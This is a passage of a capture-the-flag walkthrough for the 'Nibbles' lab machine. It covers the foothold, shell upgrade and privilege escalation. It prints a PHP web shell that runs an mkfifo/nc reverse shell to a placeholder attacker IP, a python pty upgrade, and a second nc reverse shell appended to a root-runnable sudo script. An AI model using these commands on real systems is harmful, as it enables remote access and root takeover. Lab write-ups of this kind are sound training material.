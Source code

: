 3. **Reverse Shell**: We modify the PHP file to include a Bash reverse shell one-liner:
    
    ```php
    <?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ATTACKING IP> <LISTENING PORT> >/tmp/f"); ?>
    
    ```
    
    After uploading the file and triggering the execution, we catch a reverse shell.
    
4. **Shell Upgrade**: Since the shell we receive is basic, we upgrade it to a fully interactive TTY using Python 3:
    
    ```bash
   python3 -c 'import pty; pty.spawn("/bin/bash")'
    
    ```
    
    This enables us to run more commands like `su` or use a text editor.
    
5. **Post-exploitation**: In `/home/nibbler`, we locate the `user.txt` flag and a file named `personal.zip`.
    

This step-by-step process effectively demonstrates gaining a foothold through a vulnerable plugin, escalating access to a reverse shell, and post-exploitation techniques.

### Nibbles - Privilege Escalation section:

1. **Unzipping `personal.zip`**:
    
    - Inside the `/home/nibbler` directory, unzip `personal.zip`, revealing a script file: `monitor.sh`.
    - The script is writeable and owned by the `nibbler` user, meaning we can modify it.
2. **Script Content**:
    
    - The `monitor.sh` script is a basic monitoring script.
    - Since it's owned by `nibbler` and writeable, this presents an opportunity for privilege escalation.
3. **Using [LinEnum.sh](http://LinEnum.sh) for Escalation Checks**:
    
    - Download `LinEnum.sh` from the attack machine to the target using `wget` and run it.
        
    - LinEnum reveals that `nibbler` can run `monitor.sh` as root without needing a password:
        
        ```bash
        bash
        Copy code
        (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
        
        ```
        
4. **Exploiting the Script**:
    
    - Since we can run `monitor.sh` as root, append a reverse shell one-liner to it:
        
        ```bash
        echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ATTACKER_IP> 8443 >/tmp/f' | tee -a monitor.sh
        